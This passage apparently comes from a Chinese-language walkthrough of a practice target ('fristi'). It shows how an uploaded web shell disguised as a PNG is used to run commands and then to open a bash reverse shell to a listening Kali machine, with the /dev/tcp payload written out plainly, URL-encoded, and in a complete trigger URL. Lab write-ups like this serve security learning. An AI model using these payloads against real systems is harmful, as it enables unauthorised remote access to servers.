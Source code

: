 然后访问`shell3.php.png`，并构造链接

```shell
http://192.168.10.10/fristi/uploads/shell3.php.png?cmd=id
```

![](./pic/33.jpg)

那么尝试反弹`shell`的代码

```shell
bash -i >& /dev/tcp/192.168.10.6/9999 0>&1
#因为在url中，所以进行url编码
bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.10.6%2f9999+0%3e%261
```

然后在`kali`中开启监听

```shell
nc -lvvp 9999
```

然后在浏览器执行即可

```shell
http://192.168.10.10/fristi/uploads/shell3.php.png?cmd=bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.10.6%2f9999+0%3e%261
```

![](./pic/34.jpg)



# 靶机内信息收集
